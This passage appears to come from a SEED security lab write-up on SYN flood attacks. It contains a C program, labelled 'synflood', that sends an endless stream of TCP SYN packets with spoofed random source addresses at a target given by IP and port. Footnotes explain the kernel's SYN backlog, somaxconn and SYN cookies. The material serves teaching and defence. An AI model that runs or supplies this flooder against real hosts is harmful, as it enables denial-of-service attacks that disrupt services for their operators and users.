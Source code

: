 ```c
    if (sock < 0)
    {
        fprintf(stderr, "socket() failed: %s\n", strerror(errno));
        exit(1);
    }

    // Step 2: Set socket option.
    setsockopt(sock, IPPROTO_IP, IP_HDRINCL,
               &enable, sizeof(enable));

    // Step 3: Provide needed information about destination.
    dest_info.sin_family = AF_INET;
    dest_info.sin_addr = ip->iph_destip;

    // Step 4: Send the packet out.
    sendto(sock, ip, ntohs(ip->iph_len), 0,
           (struct sockaddr *)&dest_info, sizeof(dest_info));
    close(sock);
}

/******************************************************************
  Spoof a TCP SYN packet.
*******************************************************************/
int main(int argc, char *argv[])
{
    char buffer[PACKET_LEN];
    struct ipheader *ip = (struct ipheader *)buffer;
    struct tcpheader *tcp = (struct tcpheader *)(buffer +
                                                 sizeof(struct ipheader));

    if (argc < 3)
    {
        printf("Please provide IP and Port number\n");
        printf("Usage: synflood ip port\n");
        exit(1);
    }

    char *DEST_IP = argv[1];
    int DEST_PORT = atoi(argv[2]);

    srand(time(0)); // Initialize the seed for random # generation.
    while (1)
    {
        memset(buffer, 0, PACKET_LEN);
        /*********************************************************
           Step 1: Fill in the TCP header.
        ********************************************************/
        tcp->tcp_sport  = rand();           // Use random source port
        tcp->tcp_dport  = htons(DEST_PORT);
        tcp->tcp_seq    = rand();           // Use random sequence #
        tcp->tcp_offx2  = 0x50;
        tcp->tcp_flags  = TH_SYN;           // Enable the SYN bit
        tcp->tcp_win    = htons(20000);
        tcp->tcp_sum    = 0;

        /*********************************************************
           Step 2: Fill in the IP header.
        ********************************************************/
        ip->iph_ver = 4;                    // Version (IPV4)
        ip->iph_ihl = 5;                    // Header length
        ip->iph_ttl = 50;                   // Time to live
        ip->iph_sourceip.s_addr = rand();   // Use a random IP address
        ip->iph_destip.s_addr = inet_addr(DEST_IP);
```

[^1]: Direction of flows is important if someone wants to configure asymmetric rules; that is, not all protocols require symmetric bandwidth.
[^2]: [https://www.cloudflare.com/learning/ddos/syn-flood-ddos-attack/](https://www.cloudflare.com/learning/ddos/syn-flood-ddos-attack/).
[^3]: This SYN backlog queue is also called "request socket queue." There is another backlog queue, maintained by the Linux kernel, called the accept queue. Once an ACK packet is received and validated, a new client connection is ready. This connection is moved into the accept queue, waiting for the application to call `accept()` and receive it. The `net.core.somaxconn` toggle specifies a network-system-wide maximum for the backlog of any socket; that is, it is not system global, but global to a Linux network namespace. Running in containers that have their own network namespaces, the value of `net.core.somaxconn` is set to the built-in kernel default. (More specifically, according to [the official documentation of Docker](https://docs.docker.com/engine/security/), all containers on a given Docker host are sitting on bridge interfaces, each of which gets its own network stack, meaning that a container does not get privileged access to the sockets or interfaces of another container.) When a larger backlog value is provided, the kernel silently caps it at the value of `net.core.somaxconn`. On our SEED VM, this value is `4096`. This [post](https://blog.cloudflare.com/syn-packet-handling-in-the-wild/) from Cloudflare and this [post](https://theojulienne.io/2020/07/03/scaling-linux-services-before-accepting-connections.html) from Theo Julienne provide very good explanations.
[^4]: [https://cr.yp.to/syncookies.html](https://cr.yp.to/syncookies.html).